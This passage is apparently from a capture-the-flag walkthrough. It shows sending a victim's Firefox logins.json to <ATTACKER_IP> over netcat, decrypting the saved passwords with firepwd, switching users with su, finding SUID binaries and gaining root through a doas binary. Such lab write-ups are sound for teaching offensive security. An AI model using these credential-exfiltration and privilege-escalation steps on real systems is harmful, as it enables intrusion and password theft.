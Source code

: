 Close the listener using `CTRL+C` and start another one for the next file transfer:

```sh
nc -nvlp 4445 > logins.json
```

Then on the victim machine, send the file using Netcat:

```sh
nc -nv <ATTACKER_IP> 4445 < logins.json
```

We can use the [Firepwd](https://github.com/lclevy/firepwd/tree/master) tool to decrypt the credentials. Download the [script](https://github.com/lclevy/firepwd/raw/master/firepwd.py) and the [requirements](https://github.com/lclevy/firepwd/raw/master/firepwd.py), run `pip install -r requirements.txt` then run the tool. The decrypted credentials should appear at the end of the output:

```sh
python3 firepwd.py
```

![219a4547e7da05029df39a2e78483496.png](/resources/cf155da97a0742769266045a716699f8.png)

Back in the terminal connected to the victim machine, we can use the `su` command to switch user accounts and enter the password when prompted:

```sh
su v0id
```

![0d721cce3a0fcce88364f6ef615e0b3d.png](/resources/7decadba3c084f7b8fe936c53e566471.png)

### \[-] root\@ubuntu

Let's start by using the [find](https://linux.die.net/man/1/find) command to search for binaries with the SUID bit set which will allow us to run the binary with root privileges:

```sh
find / -type f -perm /4000 2>/dev/null
```

![6a6d7b85fe04fbcb1299bcf1aa792d5b.png](/resources/69f92cac2eba4ba39ffc14d47d996509.png)

The `/usr/local/bin/doas` binary is not installed with Ubuntu which means the user installed this binary themselves. We can find more about it from [ArchWiki](https://wiki.archlinux.org/title/Doas), essentially it is similar to `sudo`.

We can run the `doas` command along with the `-u <USERNAME>` option and the binary or command we want to run as that user, in this case we will open `bash` as `root`:

![55f7392db92976ac81dfaadc1b11a012.png](/resources/8674f0b0df8d4946a0b3c10f83875541.png)

Now we can get the root flag in `/root/root.txt`:

```sh
cat /root/root.txt
```

![46065d2c57384b406dd2ecf5d9b80247.png](/resources/c73ac6edfb7e484c9569e02d3c246a4f.png)
